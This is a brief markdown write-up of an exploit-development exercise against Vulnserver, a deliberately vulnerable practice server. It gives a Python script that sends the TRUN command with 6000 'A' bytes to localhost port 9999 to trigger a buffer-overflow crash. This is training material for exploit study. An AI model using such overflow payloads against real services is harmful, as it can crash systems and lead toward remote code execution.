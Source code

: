 # Vulnserver - Command TRUN - DEP Enabled

Downloaded from: https://github.com/stephenbradshaw/vulnserver

## Initial Crash
```py
import struct
import socket

TARGET_IP = "127.0.0.1"
TARGET_PORT = 9999
target = (TARGET_IP, TARGET_PORT)  # vulnserver

VULNSRVR_CMD = b"TRUN ."  
CRASH_LEN = 6000 
OFFSET = 0  

payload = VULNSRVR_CMD
payload += b"A" * CRASH_LEN

with socket.create_connection(target) as sock:
    sock.recv(512)  # Welcome to Vulnerable Server! ... 

    sent = sock.send(payload)
    print(f"sent {sent} bytes")
 ```
